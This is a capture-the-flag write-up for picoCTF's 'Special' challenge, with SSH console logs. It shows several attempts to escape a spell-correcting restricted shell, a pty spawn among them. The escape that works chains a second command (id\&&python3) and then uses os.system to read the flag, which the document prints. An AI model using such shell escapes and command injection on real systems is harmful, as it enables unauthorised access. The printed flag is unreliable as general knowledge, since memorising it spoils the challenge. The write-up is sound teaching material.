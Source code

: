 # Special

* Author: LT 'syreal' Jones
* Link: https://play.picoctf.org/events/72/challenges/challenge/377
* Tags: General Skills, bash, ssh

## Problem

> Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM) Start your instance to see connection details. Additional details will be available after launching your challenge instance.

This challenge also came with the hint "Experiment with different shell syntax."

## Solution

I started the instance associated with the challenge and got a means to connect to a virtual machine associated with said challenge.

Some console output:

```
lambdacalculus-picoctf@webshell:~$ ssh -p 54332 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]' can't be established.
ED25519 key fingerprint is SHA256:tJ0wuU5yBvNO/FrkHmR9iY36VJClMhKV+Hq2sxqKFmg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:54332' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.15.0-1031-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Special$ ls -la
Is la 
sh: 1: Is: not found
Special$ ls
Is 
sh: 1: Is: not found
Special$ /bin/bash
Why go back to an inferior shell?
Special$ /bin/bash -p
Why go back to an inferior shell?
Special$ python -c 'import pty; pty.spawn("/bin/bash")'
Why go back to an inferior shell?
Special$ python3
Python 
sh: 1: Python: not found
Special$ python
Python 
sh: 1: Python: not found
Special$ Python
Python 
sh: 1: Python: not found
Special$ /usr/bin/python
Absolutely not paths like that, please!
Special$ cat
Cat 
sh: 1: Cat: not found
Special$ 
```

This will require some "thinking outside the box," and I noticed the following hint after starting the instance: "Experiment with different shell syntax." I eventually devised a method for tricking the bad shell into giving me a Python shell:

```
Special$ id\&&python3
Id\&&python3 
sh: 1: Id&: not found
Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("pwd")
/home/ctf-player
0
>>> os.system("ls -l")
total 0
drwxr-xr-x 2 ctf-player ctf-player 22 Mar 16 02:10 blargh
0
>>> os.system("ls -l blargh")
total 4
-rw-r--r-- 1 root root 41 Mar 16 02:10 flag.txt
0
>>> os.system("cat blargh/flag.txt")
picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}0
>>> Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
```

## References

1. https://www.gnu.org/software/bash/manual/html_node/Shell-Syntax.html
